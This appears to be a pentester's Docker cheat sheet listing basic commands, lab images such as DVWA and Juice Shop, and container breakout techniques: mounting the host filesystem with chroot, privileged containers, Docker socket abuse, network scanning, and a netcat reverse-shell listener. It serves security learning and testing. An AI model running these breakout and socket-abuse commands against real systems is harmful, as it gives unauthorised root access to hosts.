 ##  Basics

|Command|Description|
|---|---|
|`docker pull <image>`|Download image from Docker Hub|
|`docker images`|List local images|
|`docker run -it <image> /bin/bash`|Start container with interactive shell|
|`docker ps` / `docker ps -a`|List running / all containers|
|`docker stop <id>` / `docker rm <id>`|Stop or remove container|
|`docker rmi <image>`|Remove image|
|`docker exec -it <container> /bin/bash`|Shell into running container|
|`docker build -t <name> .`|Build from Dockerfile|
|`docker cp <container>:<path> <dest>`|Copy from container to host|

---

##  Pentesting Tools via Docker

|Tool|Example|
|---|---|
|Kali Linux|`docker run -it kalilinux/kali-rolling /bin/bash`|
|Metasploit|`docker run -it metasploitframework/metasploit-framework`|
|OWASP Juice Shop|`docker run -d -p 3000:3000 bkimminich/juice-shop`|
|DVWA|`docker run -d -p 80:80 vulnerables/web-dvwa`|
|Damn Vulnerable DeFi|`docker run -d trailofbits/damn-vulnerable-defi`|

---

##  Container Escape & Enumeration

###  Inside Container:

```bash
cat /proc/1/cgroup         # Check if inside container
hostnamectl                # Sometimes reveals host info
ip a / route               # Look at container network
find / -perm -4000 2>/dev/null  # SUID binaries
```

###  Breakout Tactics:

- Mount host FS: `docker run -v /:/mnt -it alpine chroot /mnt`
    
- Privileged container: `docker run --privileged -v /:/host -it alpine chroot /host`
    
- Look for Docker socket access: `/var/run/docker.sock`

---

##  Exploiting Docker Misconfigurations

| Technique                   | Command                                                                |
| --------------------------- | ---------------------------------------------------------------------- |
| Docker socket abuse         | `curl --unix-socket /var/run/docker.sock http://localhost/images/json` |
| Privileged container escape | `--privileged`, `cap_add=ALL`, `--device=/dev/kmsg`                    |
| Mount sensitive host files  | `docker run -v /etc/passwd:/passwd:ro alpine cat /passwd`              |

---

##  Networking & Port Abuse

| Command                         | Description                                  |
| ------------------------------- | -------------------------------------------- |
| `docker network ls`             | List networks                                |
| `docker network inspect <name>` | View connected containers                    |
| `docker run --net host ...`     | Share host's network stack (attack surface!) |
| `nmap <bridge-ip-range>`        | Discover other containers                    |
| `tcpdump` / `tshark`            | Monitor container network traffic            |

---

##  Useful Dockerfiles (Examples)

### Custom Python Web Shell:

```Dockerfile
FROM python:3.11-alpine
COPY shell.py /shell.py
CMD ["python3", "/shell.py"]
```

Build & Run:

```bash
docker build -t revshell .
docker run -it revshell
```

---

##  Cleanup

|Command|Description|
|---|---|
|`docker system prune`|Remove all unused containers/images/networks|
|`docker volume prune`|Remove unused volumes|
|`docker builder prune`|Clean build cache|

---

##  Pro Tips

- Mount reverse shells on compromised container: `nc -lvnp 9001`
    
- Leverage `docker.sock` for root on host if accessible
    
- Use `nsenter`, `chroot`, or `mount` for breakout testing
    
- If inside container, check `/.dockerenv`

---
